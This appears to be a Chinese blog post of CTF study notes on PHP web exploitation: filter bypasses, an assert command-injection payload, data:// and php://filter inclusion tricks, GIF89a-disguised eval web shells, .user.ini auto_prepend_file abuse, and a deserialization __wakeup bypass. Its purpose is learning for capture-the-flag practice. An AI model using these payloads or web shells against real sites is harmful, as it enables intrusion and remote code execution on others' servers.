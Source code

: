 ```yaml
---
title: CTF中的PHP知识点
date: 2022-12-29 21:46:39
keywords: ctf
description:  
---
```


## 一些函数的绕开

`str_replace / strstr` 函数在匹配 `php://` 字符串时，可以考虑使用大小写或大小写混合的方式绕过检查。

`assert` 绕过可以使用 `*1') or system("cat templates/flag.php");//*`  的方式。

`strpos`  

`preg_replace` 存在 /e 执行漏洞。


## 文件读取

```php
<?php  
// $filename 可以用 GET / POST 方式传入
if( isset($text) && (file_get_contents($filename,'r')==="hello ctf")){

}
```

当遇到 file_get_contents($file_name) 代码做条件判断时，尝试通过 data 伪协议传入希望读取的内容。data 伪协议也可以被 `include` 函数调用，从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。如果传入的都是PHP代码，就会执行任意代码。

### data 伪协议

```php
data://text/plain,hello ctf
data://text/plain;base64,aGVsbG8gY3Rm
```

### php 伪协议

当遇到 `include` 函数时，可以用 `php://` 伪协议将文件内容打印出来


```sh
?file=php://filter/read=convert.base64-encode/resource=flag.php
```



## 文件上传绕过

文件上传功能风险在于被人上传木马，经常用到的一句话木马为 `<?php eval($_GET['a']); ?>`，而绕过的方法有很多种。

* 前端校验
* MIME绕过
* 文件头校验
* 截断绕过
* 图片木马

在文本文件中添加 `GIF89a` 并保存为 jpg 文件，可以伪装成图片文件。利用 `<?` 短符号，可以绕过 php 文件的探测。

```sh
GIF89a                                                                                                                                                                                
<?=eval($_REQUEST['cmd']);?>
```

`.user.ini` 配置，可以将某个文件默认追加到所有执行 php 的文件的头部

```sh
GIF89a                  
auto_prepend_file=b.jpg
```

## 反序列化绕过

序列化就是将运行中的数据或者对象保存为持久化的数据，并且支持将持久化的数据反序列化转换为数据或者对象。序列化的目的是方便数据的传输和存储。

php 的序列化和反序列化会用到 `serialize` 和 `unserialize` 函数。

```php
// 使用这两个替换，可以绕过 wakeup 函数
$a = str_replace(':4:', ':+4:', $a);
$a = str_replace(':1:', ':2:', $a);
```





## 参考资料

1. [CTF include](https://blog.csdn.net/qq_61774705/article/details/126323696)
1. [攻防世界CTF —— PHP本地文件包含漏洞解题思路](https://blog.csdn.net/weixin_47610939/article/details/126019042)
1. [2021-02-23-ctf-Web_php_unserialize反序列化漏洞](https://blog.csdn.net/weixin_43639682/article/details/123686797)
1. [[CTF]PHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692)
1. [XCTF-攻防世界CTF平台-Web类——19、mfw（.Git源代码泄露、php的assert断言）](https://blog.csdn.net/Onlyone_1314/article/details/121876664)
1. [路径穿越（Path Traversal）详解](https://blog.csdn.net/qingzhantianxia/article/details/128204437)
